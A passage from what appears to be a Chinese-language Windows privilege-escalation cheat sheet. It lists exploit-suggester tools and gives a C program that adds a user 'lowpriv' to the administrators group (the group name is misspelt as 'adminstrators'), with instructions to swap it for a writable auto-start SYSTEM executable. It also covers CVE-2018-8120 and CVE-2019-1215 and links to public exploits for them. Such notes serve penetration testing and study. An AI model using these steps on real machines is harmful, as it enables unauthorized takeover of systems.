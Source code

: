 - [AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) - 将目标的修补程序与微软的漏洞数据库进行比较，以检测目标的潜在缺失修补程序。
- [akabe1/windows_exploit_dowser](https://github.com/akabe1/windows_exploit_dowser) - 一个简单的工具，可以用来识别影响 Windows 操作系统的漏洞。

**添加开机启动项**

useradd.c
```C
#include <stdlib.h>
int main ()
{
    int i;
    i=system ("net localgroup adminstrators lowpriv /add");
    return 0;
}
```
```
i586-mingw32msvc-gcc useradd.c -o useradd.exe
```
将 useradd.exe 传到目标机上,用 useradd.exe 去替换 everyone 完成控制且以系统权限开机自启的 exe,即可将用户 lowpriv 提升为管理员权限

查看一个程序的各个用户权限: `icacls xxx.exe`

**CVE-2018-8120**
- 简介

    Microsoft Windows 中存在提权漏洞，该漏洞源于 Win32k 组件没有正确的处理内存中的对象。攻击者可利用该漏洞在内核模式下以提升的权限执行任意代码。

- 影响版本
    - Microsoft Windows 7 SP1
    - Windows Server 2008 SP2
    - Windows Server 2008 R2 SP1

- 文章
    - [关于CVE-2018-8120的最新Windows提权漏洞分析](https://www.freebuf.com/vuls/174183.html)

- POC | Payload | exp
    - [unamer/CVE-2018-8120: CVE-2018-8120 Windows LPE exploit](https://github.com/unamer/CVE-2018-8120)
    - [alpha1ab/CVE-2018-8120: CVE-2018-8120 Exploit for Win2003 Win2008 WinXP Win7](https://github.com/alpha1ab/CVE-2018-8120)

**CVE-2019-1215**
- 简介

    Microsoft Windows 和 Microsoft Windows Server 都是美国微软（Microsoft）公司的产品。Microsoft Windows 是一套个人设备使用的操作系统。Microsoft Windows Server 是一套服务器操作系统。

    Microsoft Windows 和 Microsoft Windows Server 中 ws2ifsl.sys(Winsock) 处理内存对象的方式存在提权漏洞。攻击者可借助特制的应用程序利用该漏洞以提升的权限执行代码。

- 影响版本
    - Windows_10
    - Windows 7 SP1
    - Windows 8.1
    - Windows RT 8.1
    - Windows Server 2008 SP2
    - Windows Server 2008 R2 SP1
    - Windows Server 2012
    - Windows Server 2012 R2
    - Windows Server 2016
    - Windows Server 2019
